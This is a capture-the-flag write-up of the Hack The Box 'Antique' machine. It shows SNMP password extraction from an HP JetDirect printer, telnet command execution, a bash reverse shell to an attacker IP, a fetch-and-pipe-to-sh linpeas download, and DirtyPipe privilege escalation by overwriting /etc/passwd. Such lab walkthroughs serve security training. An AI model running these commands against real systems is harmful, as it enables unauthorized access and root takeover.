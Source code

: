 # Antique

### Challenge: FullPWN

### Tools: Nmap, telnet, SNMP

Starting off with our nmap scan we find ports 23 and 161.

```console
└──╼ [★]$ nmap -sC -A -p 161,23 10.129.86.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-11 21:36 BST
Nmap scan report for 10.129.86.189
Host is up (0.012s latency).

PORT    STATE  SERVICE VERSION
23/tcp  open   telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
161/tcp open   snmp     SNMPv1 server (public)
```

If we try logging into telnet we can see we need a password. luckily HP jetDirect has a vulnerability associated with SNMP.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```
Running SNMP walk shows its a printer and confirms the relation to telnet. next we change the command a bit to get back a password.

```
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Converting that hex string gives us the password "P@ssw0rd@123!!123" now we can try loggin into telnet.

```console
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```
Nice now we are in as lpadmin and can get the user flag! Next we need to figure out how to privlege escalate.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> id
Err updating configuration
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> 
```
```console
> exec cat user.txt
e8b892894bb1678349dd26804cc892bf
```
Set up a listner and then we can execute this bash shell to give us a pretty good shell. Now we are going to run linpeas, I had issues with the telnet shell but after creating this new shell I was able to get and run it much easier.

```console
└──╼ [★]$ nc -lvnp 6789
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6789
Ncat: Listening on 0.0.0.0:6789
```
```console
> exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
```
We are goin to use these commands taken from the linpeas github site.

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
linpeas outputs alot of information but these 3 CVE are most notable. It also mentions cups 1.6.1 but I did not go that route.

```console
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
```

After testing all 3 I finally had some luck with this one. https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit The other were giving me issues and breaking my shell.

So we are going to navigate to /tmp and since we cannot get files on the system we can just copy and paste the exploit into our own file using ```echo 'EXPLOIT GOES HERE' > exploit.c```
NOTE: After copying and pasting the shell looks a little messed up and should look something like what is directly below. So just add the ```' > exploit.c``` and it will work fine.

```console
> <Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
>                 "cp /tmp/passwd.bak /etc/passwd;"
>                 "echo \\\"Done! Popping shell... (run commands now)\\\";"
>                 "/bin/sh;"
>             "\" root"};
>         execv("/bin/sh", argv);
> 
>         printf("system() function call seems to have failed :(\n");
> return EXIT_SUCCESS;
> ' > exploit.c
```

I confirm the file is created.

```console
lp@antique:/tmp$ ls
ls
exp
exp.c
exploit.c
f
passwd.bak
solve.py
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-logind.service-8gv78i
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-timesyncd.service-tXY3Ah
tmux-7
vmware-root_872-2697532841
```
Then I compile and run it.

```console
lp@antique:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
lp@antique:/tmp$ ./exploit
./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
su root
Password: aaron
```

The exploit works and we get the flag!!!

```console
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3573f881d294e079a4d1141e1e8c1626
```

This is not the only method. I'm sure the other CVE's could have worked and The Cups 1.6.1 read file from root exploit is also confirmed to work. Also there was another version of the same CVE that I used that nearly worked but it wanted me to input a password that I did not have. Luckily I saw this one that came with a password.

GG

